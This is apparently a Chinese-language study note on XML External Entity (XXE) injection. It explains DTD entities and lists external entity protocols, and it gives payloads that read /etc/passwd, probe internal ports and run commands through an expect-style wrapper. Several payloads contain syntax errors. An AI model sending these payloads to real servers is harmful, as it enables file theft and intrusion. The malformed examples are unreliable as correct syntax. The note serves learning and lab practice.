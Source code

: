 [c0ny1/xxe-lab: 一个包含php,java,python,C#等各种语言版本的XXE漏洞Demo](https://github.com/c0ny1/xxe-lab)
[[web安全原理分析]-XEE漏洞入门 - 笑花大王 - 博客园](https://www.cnblogs.com/xhds/p/12327732.html)
[浅谈XML实体注入漏洞 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/175451.html)
XEE——XML External Entity Injection XML外部实体注入 
XML——eXtensible Markup Language 可扩展标记语言
    配置文件
    交换数据
    ![](图片/Pasted%20image%2020241118110457.png)
DTD—— Document Type Definition  文档类型定

ElEMENT——元素 [DTD 元素 | 菜鸟教程](https://www.runoob.com/dtd/dtd-elements.html)
ENTITY——实体 [DTD 实体 | 菜鸟教程](https://www.runoob.com/dtd/dtd-entities.html)
    内部声明
        `<!ENTITY entity-name "entity-value">`
        DTD 实例:  
             `<!ENTITY writer "Donald Duck.">  
            `<!ENTITY copyright "Copyright runoob.com">  
        XML 实例：  
            `<author>&writer;&copyright;</author>`
    外部声明
        `<!ENTITY entity-name SYSTEM "URI/URL">`
            DTD 实例: 
                `<!ENTITY writer SYSTEM "http://www.runoob.com/entities.dtd">`
                `<!ENTITY copyright SYSTEM "http://www.runoob.com/entities.dtd">`
            XML 实例： 
                `<author>&writer;&copyright;</author>`
外部声明引用：协议
    file file:///etc//passwd
    php php://filter/read=convert.base64 encode/resource=index.php 
    http http//:wuya.com/evil.dtd
![](图片/Pasted%20image%2020241118111733.png)


可以实现
文件读取
payload

```c
并非c只是为了高亮
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE creds[
<!ELEMENT userename ANY>
<!ELEMENT password ANY>
<!ENTITY xxe SYSTEM="file:///etc/passwd"]>
<creds>
    <username>&xxe</username>
    <password>test</password>
</creds>
```

内网探测
利用xxe漏洞进行内网探测，如果端口开启，请求返回的时间会很快，如果端口关闭请求返回的时间会很慢
```c
并非c只是为了高亮
<?xml version="1.0"?>
<!DOCTYPE creds[
<!ELEMENT userename ANY>
<!ELEMENT password ANY>
<!ENTITY xxe SYSTEM="http://127.0.0.1.22"]>
<creds>
    <username>&xxe</username>
    <password>test</password>
</creds>
```



命令执行
[PHP伪协议](PHP伪协议.md)
```c
并非c只是为了高亮
<?xml version="1.0"?>
<!DOCTYPE creds[
<!ELEMENT userename ANY>
<!ELEMENT password ANY>
<!ENTITY xxe SYSTEM="except://id"]>
<creds>
    <username>&xxe</username>
    <password>test</password>
</creds>
```



```c
并非c只是为了高亮
<!-- XML声明(定义了XML的版本和编码) -->
<?xml version="1.0" encoding="ISO-8859-1"?>

<!-- 文档类型定义 -->
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)> 
  <!ELEMENT to      (#PCDATA)>           <!-- 定义to元素为#PCDATA类型  -->
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>

<!-- 文档元素 -->
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note>

```


[一个靶场](http://web.jarvisoj.com:9882)
